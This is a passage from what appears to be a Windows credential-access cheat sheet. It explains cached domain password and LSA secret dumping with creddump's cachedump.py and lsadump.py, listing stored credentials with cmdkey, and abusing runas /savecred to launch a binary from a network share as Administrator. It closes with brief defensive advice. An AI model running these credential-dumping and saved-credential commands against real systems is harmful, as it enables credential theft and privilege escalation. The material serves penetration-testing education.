It currently extracts:

- LM and NT hashes (SYSKEY protected)
- Cached domain passwords
- LSA secrets

```bash
./cachedump.py /path/to/System32/SYSTEM /path/to/System32/config/SECURITY false
```

The hashcat mode is 2100

#### RunAs

[cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) Creates, lists, and deletes stored user names and passwords or credentials.

```bash
# List the stored credentials on the machine
cmdkey /list
```

If there is an administrator that is password are saved, we can leverage it.

```bash
runas /savecred /user:WORKGROUP\Administrator "\\IP\SHARE\BINARY.exe"
```

#### LSA Secrets

LSA Secrets are stored in the following registry key *HKEY_LOCAL_MACHINE/Security/Policy/Secrets*

By default only the SYSTEM account can access the LSA Secrets registry location.

Impacket suite contains a python script that can read the contents of these registry keys and decrypt the LSA Secrets password.

The Metasploit module to gather those hashes is *post/windows/gather/*

[creddump](https://github.com/CiscoCXSecurity/creddump7) is a python tool to extract various credentials and secrets from Windows registry hives.
It essentially performs all the functions that bkhive/samdump2, cachedump, and lsadump2 do, but in a platform-independent way.

It currently extracts:

- LM and NT hashes (SYSKEY protected)
- Cached domain passwords
- LSA secrets

```bash
./lsadump.py <system hive> <security hive>
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- *Architecture*: Design an enterprise network that limits privileged account use across administrative tiers.
